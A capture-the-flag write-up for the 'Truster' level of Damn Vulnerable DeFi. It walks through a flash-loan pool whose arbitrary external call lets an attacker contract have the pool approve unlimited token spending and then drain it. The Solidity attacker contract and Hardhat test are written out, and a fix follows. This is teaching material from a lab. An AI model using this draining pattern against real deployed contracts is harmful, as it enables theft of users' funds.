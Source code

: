 # Truster

## Challenge

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

## Solution

Let us observe the flashloan function inside `TrusterLenderPool.sol`

```solidity
function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

This function takes the amount to borrow, the address of the borrower contract, the address of the target contract the flashloan should interact with and the data to send to that target contarct. We see that the only way the execution of this function does not fail is that the borrower pays back the loan.

The only place to exploit this contract is then using the call to the `target` contract. In this case `functionCall` is a method implemented for addresses of the type `Address` which is a safer type implementes by OpenZeppelin. It implements the low level `call` method, so the data we should pass to it must include a call to a function implemented in `target`.

If we think for a moment, `target` can be any contract we want, and the call of the function within `target` will be signed by the `TrustLenderPool.sol` contract. This means that this contract is blindly signing any possible transaction. Let use this to steal all its funds. Recall that `IERC20` tokens have several ways of transfering. One of them is by the `approve` - `transferFrom` sequence. That is, the sender first approve a certain amount of tokens for the receiver to take, and then the receiver uses `transferFrom` to claim them. Then we only need `TrustLenderPool.sol` to sign an approval for a big amount and we can just take it. We create an attacker contract, that we call [`AttackerTruster.sol`](./AttackerTruster.sol). The main function looks like this

```solidity
    function attack(address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature('approve(address,uint256)', address(this), 2**256 - 1);
        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool, msg.sender, token.balanceOf(_pool));
    }
```

First we create an instance of both the pool and the DVT token to their respective addresses. Then we prepare the data to call the `approve` function for the maximum value of a `uint256` variable. We call `flashLoan` with the corresponding target to be the DVT token address and the data we defined before. Here we could create a contract that just pays back the borrowed amount, but since the borrowed amount is allowed to be 0 we just simplify it by asking 0, and then we do not need to payback anything. Once this function is executed, `TrustLenderPool.sol` has given us the approval to take all its tokens, and that is what we do in the last line.

To run the attack we complete the code in [`truster.challenge.js`](../../test/truster/truster.challenge.js) by adding

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE  */
  const Attacker = await ethers.getContractFactory("AttackerTruster", attacker)
  attackerContract = await Attacker.deploy()
  await attackerContract.attack(this.pool.address, this.token.address)
})
```

## Solving the issue

We have seen that the issue here was blindly signing transactions. To solve the issue we should just remove the `target` and `data` parameters. As an issuer of flashloans we do not care who is the contract using the borrowed funds, so this logic should be implemented iin the borrower contract.
